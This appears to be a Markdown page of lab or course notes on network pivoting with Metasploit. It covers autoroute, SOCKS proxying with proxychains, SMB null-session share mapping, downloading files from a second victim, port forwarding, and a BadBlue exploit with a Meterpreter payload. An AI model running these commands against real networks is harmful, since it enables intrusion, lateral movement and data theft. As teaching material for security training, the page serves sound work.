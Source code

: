 ## proxychains

```shell
run autoroute -s <second_target_IP>/<netmask>
# This command is used in the Meterpreter session within the Metasploit Framework. It sets up a route through a compromised machine to access other networks that are not directly reachable from the attacker's machine.
```

Now, let's start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.
First start the socks server using the Metasploit module.

```shell
background
use auxiliary/server/socks_proxy
# Creates a SOCKS4a proxy server inside Metasploit.
# Useful for pivoting — allows routing tools like proxychains or browsers through a Meterpreter session or compromised host.
show options
set SRVPORT 9050
set VERSION 4a 
exploit
jobs
```

Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine. We could also specify multiple ports. But, in this case, we are only interested in SMB service.

```shell
proxychains nmap <target_IP_2> -sT -Pn -sV -p 445
```

Now, let's use the `net view` command to find all resources shared by the <target_IP_2> machine.

```shell
# Interact with the meterpreter session again
sessions -i 1

pgrep explorer
migrate <process_ID>

shell
net view <target_IP_2>
```

We can see two shared resources. **Documents** and **K** drive. This confirms that pivot target allows Null Sessions, so we can access the shared resources. Also, we can achieve the same goal in several ways.

```shell
net use D: \\<target_IP_2>\Documents
net use K: \\<target_IP_2>\K$

# We successfully mapped the resources to D and K drives. Let's check what is inside these mapped drives.
dir D:
dir K:

cd D:\\ 
download Confidential.txt
download FLAG2.txt
```

<br>

# Windows Pivoting

**Pivoting with port forwarding**

```shell
# VICTIM 1
ipconfig
# We can observe, there is only one network adapter and we have two machine IP addresses but we cannot access “Victim Machine 2” directly from the attacker’s machine. We will add a route and then we will run an auxiliary port scanner module on the second victim machine to discover a host and open ports.
run autoroute -s <CIDR_notation> # e.g. 10.0.16.0/20

# VICTIM 2
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip_victim_2> # Victim 2 was provided
exploit

# We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap
sessions -i 1
portfwd add -l 1234 -p 80 -r <ip_victim_2>
portfwd list

# We have forwarded the port, now use Nmap to find the running application name and version.
db_nmap -sS -sV -p 1234 localhost
```

**So just to summarize:**
- Gained access to **Victim Machine 1**.
- Added a route to its internal subnet to reach **Victim Machine 2**.
- Scanned and discovered **open ports** on Victim 2.
- **Forwarded** remote ports from Victim 2 to a **local port** on Kali for analysis.
- Used **Nmap** to identify service versions.
- Launched an exploit to gain access to **Victim Machine 2**.

### Exploitation - example

```shell
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS <ip_victim_2>
exploit
```
